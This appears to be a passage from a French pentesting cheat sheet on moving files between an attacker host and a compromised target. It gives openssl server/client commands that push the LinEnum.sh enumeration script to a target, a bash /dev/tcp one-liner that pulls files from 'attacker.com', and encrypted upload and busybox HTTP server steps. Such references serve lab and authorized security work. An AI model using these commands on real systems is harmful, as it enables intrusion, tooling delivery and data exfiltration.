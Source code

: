 Monter serveur avec certificat depuis attacker
```shell
openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

Télécharger le fichier depuis la target
```shell
openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```

## Bash

Depuis cible

```
export RHOST=attacker.com
export RPORT=12345
export LFILE=file_to_get
bash -c '{ echo -ne "GET /$LFILE HTTP/1.0\r\nhost: $RHOST\r\n\r\n" 1>&3; cat 0<&3; } \
    3<>/dev/tcp/$RHOST/$RPORT \
    | { while read -r; do [ "$REPLY" = "$(echo -ne "\r")" ] && break; done; cat; } > $LFILE'
```



### Upload

#### OpenSSL (Chiffré)

Créer certificat sur attacker
```shell
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out cert.pem
```

Monter serveur avec certificat depuis attacker
```bash
openssl s_server -quiet -key key.pem -cert cert.pem -port 12345 > file_to_save
```

#### BusyBox

Monter serveur http depuis la target
```bash
busybox httpd -f -p $LPORT -h .
```



---
# #DOWNLOADS

# HTTP DOWNLOADS

https://gist.github.com/HarmJ0y/bb48307ffa663256e239

## Créer serveur à la volée
